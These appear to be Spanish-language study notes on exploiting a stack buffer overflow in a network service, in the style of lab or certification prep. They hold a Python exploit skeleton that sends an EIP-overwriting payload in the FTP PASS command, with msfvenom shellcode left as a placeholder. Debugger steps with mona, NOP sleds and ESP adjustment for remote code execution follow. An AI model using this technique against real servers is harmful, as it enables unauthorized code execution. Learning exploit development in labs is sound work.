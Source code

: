 ```python
shellcode = (b"lo que te da msfvenom"
b"0x54"
b"0x49")

payload = before_eip + eip + shellcode


def exploit():
    # Crear un socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    # Conectar al servidor
    s.connect((ip_address, port))

    # Recibir el banner
    banner = s.recv(1024)

    # Enviar comandos
    s.send(b"USER jquerito" + b'\r\n')
    response = s.recv(1024)
    s.send(b"PASS " + payload  + b'\r\n')
    s.close()

# Función principal
if __name__ == '__main__':
    exploit()
```

-  Vamos a IDebugger 
1. buscamos la posición de memoria que nos ha dado el comando de !**mona** en la **flecha azul**
2. Breakpoint --> Toggle, vemos si es verdad que el ESP le da el valor a EIP
3. Mandamos script
4. Debe valer lo **mismo EIP y Jump ESP**
5. Pulsamos **2 botones a la derecha del play** y representa la siguiente instrucción donde **EIP** va a valer lo que antes valía **ESP**
6. Click derecho en **ESP** --> follow in dump
7. Nuestro shellcode se ve reflejado en LA ventana de la izquierda abajo
8. Pero posiblemente no se  ejecute, vemos en la siguuiente sección por qué

## Uso de NOPs, desplazamientos en pila e interpretación del Shellcode para lograr RCE

>Puede que nuestro shellcode no se ejecute porque tarda más tiempo en ejecutarse del que el procesador tiene asignado para ejecutar esa instrucción, para ello utilizamos **NOPS**

>NOPs es --> No Operación, no realiza nada pero permite dar tiempo al programa para que no se ejecute el shellcode antes de que no se ejecute la siguiente instrucción

>**Desplazamiento en la pila**: técnia que implica modificar o mover  el registro ESP para reservar espacio adicional y enchufar el shellcode, podemos utilizar “**sub esp, 0x10**” para desplazar el registro ESP **16 bytes** hacia abajo en la pila y reservar espacio adicional para el shellcode.
